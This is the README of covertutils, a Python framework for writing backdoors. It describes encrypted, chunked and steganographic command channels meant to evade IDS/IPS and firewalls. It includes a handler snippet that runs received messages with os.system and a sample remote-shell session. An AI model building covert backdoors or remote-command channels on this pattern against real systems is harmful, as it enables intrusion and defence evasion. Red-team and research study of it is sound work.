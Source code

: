 # covertutils
## A framework for Backdoor programming!

[![Documentation Status](https://readthedocs.org/projects/covertutils/badge/?version=latest)](http://covertutils.readthedocs.io/en/latest/?badge=latest) [![PyPI version](https://badge.fury.io/py/covertutils.svg)](https://pypi.python.org/pypi/covertutils)          [![GitHub version](https://badge.fury.io/gh/operatorequals%2Fcovertutils.svg)](https://github.com/operatorequals/covertutils) [![Build Status](https://travis-ci.org/operatorequals/covertutils.svg?branch=master)](https://travis-ci.org/operatorequals/covertutils)

[Documentation Page](https://covertutils.readthedocs.io)

[Blog Post in Securosophy describing some internals](https://securosophy.com/2017/04/22/reinventing-the-wheel-for-the-last-time-the-covertutils-package/)

### What is it?
This python package automatically handles all communication channel options, like **encryption**, **chunking**, **steganography**, etc.

With all those set with a few lines of code, a programmer can spend time creating the *actual payloads*, *persistense mechanisms*, *shellcodes* and generally **more creative stuff!**!

The security programmers can stop *re-inventing the wheel* by implementing encryption mechanisms both agent-side and handler-side to spend their time to develop more versatile *agents*, and generally feature-full shells!

### Python?
Yes, python, and more specifically **Python2.7** only, for the time being...

### But why Python2?
Several reasons. Mostly because Python2 is **more popular among devices** (*IoT devices*, *old Linux servers*, etc), and backdoor code could run *as-is* on them, without `Freezing`, `Packing`, `PyInstalling`, etc. Backdoors are valuable when they are as cross-platform as possible.
Macs, for example, do not have Python3 installed by default. If you want `covertutils` in Python3, do not complain, read [this reddit flame war dodging](https://www.reddit.com/r/netsec/comments/6rj7b0/a_python_package_for_creating_backdoors_coverutils/) and start PRing...


### Dependencies?
NO! Absolutely no dependencies, only pure python built-ins! The `entropy` package is required for the `tests` though.
This is a package's requirement, to ensure good flow when compiling in executable binaries.


# Summary

## The Entities

### The `Message`
Messages are all things that mean something to the listener. Messages travel through communication channels, and they have to be unaware of the channel they are travelling in. In other words, messages have to be independent of the mean of their transportation.
 *  If the communication channel can handle low length byte-chunks per "burst", the message has to be chunked.
 *  If the communication channel filters certain byte arrays (IDS/IPS, NextGen Firewalls).
 

### The `Stream`
The Stream is a tag that gives certain context to the message. Can be defined and used for arbitrary reasons. Streams, for example, can be used to separate `Shell Commands` from `shellcode` messages.

## The Organizers

### The `Orchestrator`
Orchestrators are the core of data manipulation in `covertutils`. They handle all data transformation methods to translate raw chunks of data into Stream-Message pairs.

### The `Handler`
Handlers tie together the raw byte input/output with the `orchestrators` to provide an interface of:
* `onChunk()`
* `onMessage()`
* `onNotRecognized()`

#### Example :
```python
def onMessage( message, stream ) :
  if stream == 'shell' :
    os.system( message )
```

### The `Shell`
A shell interface with prompt and `stream` control can be spawned from a `Handler` instance with:
``` python

shell = StandardShell(handler, prompt = "(%s:%d)> " % client_addr )
shell.start()
```
```bash
(127.0.0.5:8081)> 
# <Ctrl-C>
Available Streams:
	[ 0] - control
	[ 1] - python
	[ 2] - os-shell
	[99] - Back
Select stream: 2
[os-shell]> uname -a
Linux hostname 4.9.0-kali4-amd64 #1 SMP Debian 4.9.25-1kali1 (2017-05-04) x86_64 GNU/Linux
[os-shell]> !control sysinfo
General:
	Host: hostname
	Machine: x86_64
	Version: #1 SMP Debian 4.9.25-1kali1 (2017-05-04)
	Locale: en_US-UTF-8
	Platform: Linux-4.9.0-kali4-amd64-x86_64-with-Kali-kali-rolling-kali-rolling
	Release: 4.9.0-kali4-amd64
	System: Linux
	Processor: 
	User: unused

Specifics:
	Windows: ---
	Linux: glibc-2.7

[os-shell]> 
# <Ctrl-C>
(127.0.0.5:8081)> q
[!]	Quit shell? [y/N] y
Aborted by the user...

```

## Networking
Networking is not handled by `covertutils`, as python provides great built-in networking API (directly inherited from C). The only requirements for `covertutils` `Handler` instances are **2 functions wrapping the raw data sending and receiving**.

Just pass a `send( raw )` and a `recv()` function to a `Handler` and you have a working *One-Time-Pad* encrypted, bandwidth aware, protocol independent, *password protected*, *multi-usable* channel.

# Further Examples:
Sample TCP/UDP Reverse Shells and TCP Bind Shell scripts can be found in `examples/` directory.

Tutorial and explanation of the architecture can be found in the [CovertUtils Tutorial Restaurant](http://covertutils.readthedocs.io/en/latest/assembling_backdoor.html)!


# Pull Requests?
Certainly! All pull requests that are tested and do not break the existing tests will be accepted!
Especially Pull Requests towards Python2/Python3 compatibility will be greatly appreciated!
